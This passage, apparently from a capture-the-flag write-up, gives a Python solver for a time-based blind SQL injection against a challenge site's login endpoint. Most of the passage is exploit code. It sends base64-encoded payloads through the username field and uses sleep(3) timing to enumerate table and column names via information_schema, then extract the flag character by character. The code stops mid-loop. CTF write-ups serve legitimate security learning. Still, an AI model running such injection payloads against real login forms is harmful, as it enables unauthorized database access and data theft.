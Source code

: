 Given that the login request with the Time-Based payload was successfully executed for 10 seconds according to the payload. Let's construct a payload to extract the table, column, and exfiltrate its flag, primarily sourced from [link](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/MySQL%20Injection.md).

Here is the solver I used.
``` python
import requests
import json
import base64
import time
from urllib.request import urljoin
from string import ascii_lowercase, ascii_uppercase, digits

URL = "http://tokyo.ctf.protergo.party:10002"
Token = "/api/token"
Login = "/api/login"
charset = ascii_lowercase + digits + ",}{.:!@$^&*()#"

class Exploit:
	def __init__(self, url=URL):
		self.url = url
		self.session = requests.Session()

	def getToken(self):
		hitToken = self.session.get(urljoin(self.url, Token))
		return json.loads(hitToken.text)["data"]["token"]

	def blind(self):
		table = ""
		column = ""
		flag = ""
		idx = 1
		error = 0
		while (error < 70):
			for char in charset:
				start = time.time()
				token = self.getToken()
				
				# Find tables charset without ascii_uppercase and underscore "_"
				# sqli = base64.b64encode("' or (select sleep(3) from dual where (select table_name from information_schema.tables where table_schema=database() and table_name like '{}%' limit 0,1) like binary '%')#".format(table + char).encode())
				
				# Find column charset without ascii_uppercase
				# sqli = base64.b64encode("' or (select sleep(3) from dual where (select column_name from information_schema.columns where table_schema=database() and table_name='flag' limit 1,1) like binary '{}%')#".format(column + char).encode())
				
				# Exfiltrate Flag charset without ascii_uppercase and underscore "_"
				# https://lightless.me/archives/sqli-cheat-sheet.html
				sqli = base64.b64encode("' or (select if((select substr(fl4g_c0lumn5,{},1) from flag limit 0,1) = '{}', sleep(3), null))#".format(idx, char).encode())

				payload = {"username":sqli,"password":"x","token":token}
				execute = self.session.post(urljoin(self.url, Login), data=payload)
				end = time.time()
				timebased = int(end - start)
				if timebased == 3:
					# table += char
					# print(f"[+] Table = {table}")
				
					# column += char
					# print(f"[+] Column = {column}")
```